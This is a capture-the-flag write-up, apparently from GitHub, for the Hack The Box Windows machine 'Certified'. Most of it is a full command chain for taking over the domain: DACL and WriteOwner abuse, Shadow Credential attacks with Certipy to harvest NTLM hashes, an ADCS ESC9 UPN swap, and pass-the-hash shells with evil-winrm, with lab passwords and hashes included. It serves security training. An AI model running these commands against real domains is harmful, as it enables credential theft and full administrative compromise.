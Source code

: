 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - 🔓 **Assume Breach**: `WriteOwner` → DACL abuse → Shadow Credential  
  - 🔑 **ADCS ESC9**: UPN swap + no‑security‑ext template  
  - 🔄 **Shadow Credential** (Certipy) for NTLM extraction

**Open Ports:**
- 88/tcp [Kerberos]  
- 389/tcp [LDAP]  
- 445/tcp [SMB]  
- 5985/tcp [WinRM]  

---

## 🧠 TLDR  
1. **judith.mader** logs in, runs Bloodhound‑CE → finds ACL path to **management_svc** → **ca_operator**.  
2. Use **owneredit.py** + **dacledit.py** + `net rpc` to add judith ➡️ **Management_SVC**.  
3. As **management_svc**, inject **Shadow Credential** on itself → steal NTLM.  
4. As **ca_operator**, repeat **Shadow Credential** → steal its NTLM.  
5. Exploit **ADCS ESC9** via **ca_operator**: swap UPN→Administrator, request cert, extract admin hash.  
6. **Evil-WinRM** pass‑the‑hash → shell as **Administrator**. 🎉  

---

## 🧰 Tools  
- 🕵️ Recon & SMB: `nmap`, `netexec`  
- 📊 ACL Mapping: Bloodhound‑CE (`bloodhound-python`)  
- 🛠️ ACL Abuse: Impacket’s `owneredit.py`, `dacledit.py` + `net rpc`  
- 🧩 Shadow Credentials: `certipy shadow`  
- 🎛️ ADCS ESC9: `certipy account update`, `certipy req`, `certipy auth`  
- 💻 Shell: `evil-winrm`  

---

## 🚀 Commands to Solve Box
```bash
# 1) Recon & login
nmap -p- --min-rate 10000 10.10.11.41
nmap -p88,389,445,5985 -sCV 10.10.11.41
netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares

# 2) Bloodhound-CE collection
bloodhound-python -c all -u judith.mader -p judith09 \
  -d certified.htb -ns 10.10.11.41 --zip
# Upload ZIP to Bloodhound-CE UI → find ACL path

# 3) WriteOwner & DACL abuse
owneredit.py -action write \
  -new-owner judith.mader -target Management \
  certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

dacledit.py -action write \
  -rights WriteMembers -principal judith.mader \
  -target Management certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

net rpc group addmem Management judith.mader \
  -U "certified.htb/judith.mader%judith09" -S 10.10.11.41

# 4) Shadow Cred on management_svc
certipy shadow auto \
  -username judith.mader@certified.htb \
  -password judith09 \
  -account management_svc \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: a091c1832bcdd4677c28b5a6a1295584

# 5) Shell as management_svc
evil-winrm -i 10.10.11.41 \
  -u management_svc \
  -H a091c1832bcdd4677c28b5a6a1295584

# 6) Shadow Cred on ca_operator
certipy shadow auto \
  -username management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -account ca_operator \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: b4b86f45c6018f1b664f70805f45d8f2

# 7) ESC9 ADCS exploit (ca_operator→Administrator)
certipy account update \
  -u management_svc \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn Administrator \
  -dc-ip 10.10.11.41

certipy req \
  -u ca_operator \
  -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA \
  -template CertifiedAuthentication \
  -dc-ip 10.10.11.41

certipy auth \
  -pfx administrator.pfx \
  -dc-ip 10.10.11.41
# → admin hash: 0d5b49608bbce1751f708748f67e2d34

# 8) Shell as Administrator
evil-winrm -i 10.10.11.41 \
  -u administrator \
  -H 0d5b49608bbce1751f708748f67e2d34
```

---

## 🎓 Actions Learned
- 📝 **WriteOwner Abuse** to seize group ownership  
- 🚧 **DACL Editing** (`WriteMembers`) to escalate membership  
- 🛡️ **Shadow Credential** injection for stealth NTLM harvest  
- 🔐 **ADCS ESC9 UPN Swap** for certificate‑based PTH to Administrator  

---

## 📚 References
- [Bloodhound‑CE (Docker)](https://github.com/BloodHoundAD/BloodHound#community-edition)  
- [Bloodhound.py Collector](https://github.com/dirkjanm/BloodHound.py)  
- [Impacket Examples](https://github.com/SecureAuthCorp/impacket#examples)  
- [Certipy (Shadow Credential)](https://github.com/ly4k/Certipy)  
- [ESC9 Attack Writeup](https://github.com/ly4k/Certipy#esc9)  
- [HTB Certified Walkthrough](https://0xdf.gitlab.io/2025/03/15/htb-certified.html)  